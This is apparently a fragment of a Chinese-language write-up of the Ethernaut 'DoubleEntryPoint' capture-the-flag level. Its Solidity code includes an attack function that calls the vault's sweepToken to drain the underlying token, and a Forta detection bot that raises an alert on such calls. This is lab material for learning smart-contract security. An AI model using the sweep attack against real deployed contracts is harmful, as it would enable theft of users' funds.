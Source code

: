 ```solidity
    IDoubleEntryPoint instance; // 题目实例
    IForta forta; // 报警机器人
    IDoubleEntryPoint DET; // 底层币
    ILegacyToken LGT; // 垃圾币
    ICryptoVault vault; // 金库

    constructor(IDoubleEntryPoint _addr) public {
        // 初始化题目信息
        instance = _addr;
        vault = ICryptoVault(instance.cryptoVault());
        DET = IDoubleEntryPoint(vault.underlying());
        LGT = ILegacyToken(instance.delegatedFrom());
        forta = IForta(instance.forta());
    }

    function attack_stealDET() public { // 2.我们来尝试一下是否可以攻击成功
        vault.sweepToken(address(LGT));
    }

}

// 3. 用玩家EOA账号部署一个MyRobot
contract MyRobot is IDetectionBot {
    ICryptoVault vault;

    constructor(ICryptoVault _addr) public {
        vault = _addr;
    }

    function handleTransaction(address user, bytes calldata msgData) external override {

        address origSender;
        assembly {
            origSender := calldataload(0xa8)
        }

        if(origSender == address(vault)) {
            IForta(msg.sender).raiseAlert(user);
        }
    }
}
// 4. 创建一个新的题目instance
// 5. 用EOA账户调用新实例的IForta的setDetectionBot()设置报警机器人
// 6. 完成
```

给出攻击的流程：

![](https://moe.photo/images/2023/07/19/image-20230719202515103.png)

成功

![](https://moe.photo/images/2023/07/19/image-20230719181008465.png)
